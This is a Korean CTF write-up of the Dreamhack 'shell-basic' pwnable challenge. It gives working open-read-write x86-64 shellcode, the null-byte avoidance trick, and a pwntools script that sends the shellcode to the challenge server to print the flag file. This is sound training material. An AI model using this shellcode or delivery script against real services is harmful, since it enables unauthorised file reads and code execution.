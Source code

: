 ```yaml
---
title: "[pwn]shell-basic"
category: CTF
tags: [pwnable]
excerpt: "dreamhack shell-basic writeup"
toc: true
toc_label: "Table of Contents"
toc_sticky: true
toc_icon: "bars"
---
```


처음 풀어보는 포너블 문제라 감도 안왔지만 튜토리얼로 어느정도는 따라갈 수 있었다. 파일 경로가 길어졌다는 것을 제외하면 같은 방식이다.

## 환경조사  
  amd64 LE 환경이다. 
  
## Assembly 작성
  ~~~
__asm__(
	".global main\n"
        "main:\n"

	"xor rax,rax\n"
	"push rax\n"
        "mov rax,0x676E6F6F6F6F6F6F\n"
	"push rax\n"
        "mov rax,0x6C5F73695F656D61\n"
        "push rax\n"
	"mov rax,0x6E5F67616C662F63\n"
        "push rax\n"
	"mov rax,0x697361625F6C6C65\n"
        "push rax\n"
	"mov rax,0x68732F656D6F682F\n"
        "push rax\n"
	"mov rdi,rsp\n"
        "xor rsi,rsi\n"
        "xor rdx,rdx\n"
	"xor rax,rax\n"
	"add rax,0x2\n"
        "syscall\n"
	"\n"
        "mov rdi,rax\n"
	"mov rsi,rsp\n"
	"sub rsi,0x30\n"
        "xor rax,rax\n"
	"xor rdx,rdx\n"
	"add rdx,0x30\n"
        "syscall\n"
	"\n"
	"xor rdi,rdi\n"
	"add rdi,0x1\n"
	"xor rax,rax\n"
	"add rax,0x1\n"
        "syscall");
  ~~~
  먼저 stack에 file location을 string의 형태로 넣었다. 파일 경로가 8byte에 맞아 떨어지므로 \0을 마지막에 넣어주기 위해 0을 먼저 push해주었다.   
  그 이후에는 SYSCALL 함수의 parameter에 따라 변수를 넣어준다. **SYS_OPEN(const char \*filename,int flags,umode_t mode)** 에 flags=0, mode=null 을 넣어준다. **SYS_READ(unsigned int fd,char \*buf,size_t count)**, **SYS_WRITE(unsigned int fd,char \*buf,size_t count)** 함수의 parameter에 맞게 넣어주면 된다.  
  
  이때 shell code에는 \x00이 포함되면 안되므로 **mov rax,0x0** 이 아닌 **xor rax,rax**를 해준것이다.
  {: .notice--danger}
  
## gcc  
  **gcc -o orw orw.c -masm=intel** 명령어를 통해 컴파일한다.  
  
## objdump  
  **objdump -d ./orw** 명령어로 opcode를 추출한다.  
  <img width="605" alt="opcode" src="https://user-images.githubusercontent.com/45323902/154000690-ae589c0c-4fb5-46fa-823f-0cd0e2fd155d.png">  
  여기서 마지막 syscall(\x0f\x05)까지만 추출하면 된다.  
  
## script 작성
  ~~~
	from pwn import *

	p=remote('host1.dreamhack.games',22700)

	p.recvuntil(b'shellcode:')
  exploit=b'\x48\x31\xc0\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x48\x83\xc0\x02\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\x31\xc0\x48\x31\xd2\x48\x83\xc2\x30\x0f\x05\x48\x31\xff\x48\x83\xc7\x01\x48\x31\xc0\x48\x83\xc0\x01\x0f\x05'
	p.send(exploit)
	p.interactive()
  ~~~
  script를 이용해 shellcode를 전달하면 함수 내부에서 shellcode를 메모리에 넣고 실행하게 된다.  
  <img width="725" alt="script exec" src="https://user-images.githubusercontent.com/45323902/154060282-9a3a8081-505a-4e1f-b5fe-d719bde16195.png">  
  이때 flag이후에 다른 값이 나오는 이유는 buf size가 0x30인데 flag가 그보다 짧아 메모리에 있는 다른 내용까지 출력하게 된 것이다.
